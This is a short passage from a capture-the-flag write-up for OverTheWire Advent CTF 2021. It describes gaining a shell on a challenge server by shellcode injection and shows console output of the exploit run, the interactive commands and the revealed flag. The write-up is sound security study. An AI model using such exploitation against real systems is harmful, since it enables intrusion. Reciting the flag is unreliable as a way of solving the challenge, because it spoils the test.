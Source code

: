 For 1., we're pretty lazy and lean on [the internet](https://0x00sec.org/t/remote-exploit-shellcode-without-sockets/1440) to help us out.
For 2-4, we can easily write a handful of commands to spawn our shell

Lastly, once we have access, we can poke around.
It doesn't take long for us to find what we're looking for.

From our side, the exploit looks like the following:

```console
$ ./exploit.py shell
Request length: 9
 OverTheWire Advent CTF 2021 The Grinch presents:
 (output truncated)

code:
Injecting shellcode
command to run ("exit" to exit): ls
bet_you_didnt_guess_this_flag_name
boot.bin
merryvmas
redir.sh

command to run ("exit" to exit): cat bet_you_didnt_guess_this_flag_name
AOTW{bl4ckb0x3s_4r3_jus7_uN0p3neD_pr3ss13s}
```

And there we have it -- we've opened our present!

Our flag is: `AOTW{bl4ckb0x3s_4r3_jus7_uN0p3neD_pr3ss13s}`
